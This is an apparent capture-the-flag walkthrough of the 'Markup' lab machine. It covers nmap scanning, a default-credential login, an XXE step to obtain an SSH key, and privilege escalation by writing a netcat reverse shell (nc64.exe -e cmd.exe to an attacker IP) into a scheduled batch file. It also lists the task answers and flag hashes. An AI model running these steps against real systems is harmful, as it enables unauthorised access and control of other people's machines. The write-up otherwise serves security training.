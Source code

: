 # Markup

## Initial Scan

```nmap
sudo nmap -T4 -v 10.129.202.209 -oA Markup-Basic
sudo nmap -T4 -p 22,80,443 -sV -sC -v 10.129.202.209 -oA Markup-sv
```

<figure><img src="../../../.gitbook/assets/image (610).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (611).png" alt=""><figcaption></figcaption></figure>

## Task 1

What version of Apache is running on the target's port 80?

Answer: 2.4.41

## Task 2

What username:password combination logs in successfully?

<figure><img src="../../../.gitbook/assets/image (612).png" alt=""><figcaption></figcaption></figure>

Just tried basic default logins

<figure><img src="../../../.gitbook/assets/image (613).png" alt=""><figcaption></figcaption></figure>

Answer: `admin:password`

## Task 3

What is the word at the top of the page that accepts user input?

<figure><img src="../../../.gitbook/assets/image (614).png" alt=""><figcaption></figcaption></figure>

Answer: Order

## Task 4

What XML version is used on the target?

<figure><img src="../../../.gitbook/assets/image (615).png" alt=""><figcaption></figcaption></figure>

Answer: 1.0

## Task 5

What does the XXE / XEE attack acronym stand for?

<figure><img src="../../../.gitbook/assets/image (616).png" alt=""><figcaption></figcaption></figure>

Answer: XML external entity

## Task 6

What username can we find on the webpage's HTML code?

<figure><img src="../../../.gitbook/assets/image (617).png" alt=""><figcaption></figcaption></figure>

Answer: Daniel

## Task 7

What is the file located in the Log-Management folder on the target?

<figure><img src="../../../.gitbook/assets/image (618).png" alt=""><figcaption></figcaption></figure>

Put the rsa into a file on our machine

<figure><img src="../../../.gitbook/assets/image (619).png" alt=""><figcaption></figcaption></figure>

Login as daniel

<figure><img src="../../../.gitbook/assets/image (620).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (621).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (622).png" alt=""><figcaption></figcaption></figure>

Answer: job.bat

## Task 8

What executable is mentioned in the file mentioned before?

<figure><img src="../../../.gitbook/assets/image (623).png" alt=""><figcaption></figcaption></figure>

Answer: wevtutil.exe

## Task 9

Submit user flag

<figure><img src="../../../.gitbook/assets/image (624).png" alt=""><figcaption></figcaption></figure>

Answer: 032d2fc8952a8c24e39c8f0ee9918ef7

## Task 10

Submit root flag

Run winpeas

<figure><img src="../../../.gitbook/assets/image (625).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (626).png" alt=""><figcaption></figcaption></figure>

Under the section "Searching executable files in non-default folders with write (equivalent) permissions (can be slow)" We see

<figure><img src="../../../.gitbook/assets/image (627).png" alt=""><figcaption></figcaption></figure>

Which from the previous question we have looked at. Run Let's run netcat to connect back to us as admin.

<figure><img src="../../../.gitbook/assets/image (628).png" alt=""><figcaption></figcaption></figure>

Get nc.exe onto the target

<figure><img src="../../../.gitbook/assets/image (629).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (630).png" alt=""><figcaption></figcaption></figure>

Run it to get admin on the system

```
echo C:\Users\Daniel\nc64.exe -e cmd.exe 10.10.14.38 1234 > C:\Log-Management\job.bat
```

<figure><img src="../../../.gitbook/assets/image (631).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (632).png" alt=""><figcaption></figcaption></figure>

I had troubles getting the shell to pop, which apparently is common, the root flag is under: `C:\Users\Administrator\Desktop\root.txt`

Answer: f574a3e7650cebd8c39784299cb570f8
